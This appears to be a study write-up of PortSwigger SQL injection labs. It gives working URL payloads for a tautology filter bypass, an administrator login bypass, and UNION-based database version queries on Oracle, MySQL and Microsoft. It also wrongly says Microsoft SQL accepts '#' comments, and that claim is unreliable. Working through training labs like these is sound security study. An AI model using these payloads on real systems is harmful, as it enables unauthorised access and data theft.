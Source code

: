 https://portswigger.net/web-security/sql-injection 
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Labs:
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```

## 2. SQL injection vulnerability allowing login bypass

SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```

## 3. SQL injection querying the database type and version on Oracle

 Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
 ```
 .../filter?category=Accessories'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 .../filter?category=Accessories'UNION SELECT 'a', banner FROM v$version--
```

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft
Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 .../filter?category=Accessories'UNION SELECT'a','b'#
```

 Display the database version:
```
 .../filter?category=Accessories'UNION SELECT 'a', @@version#
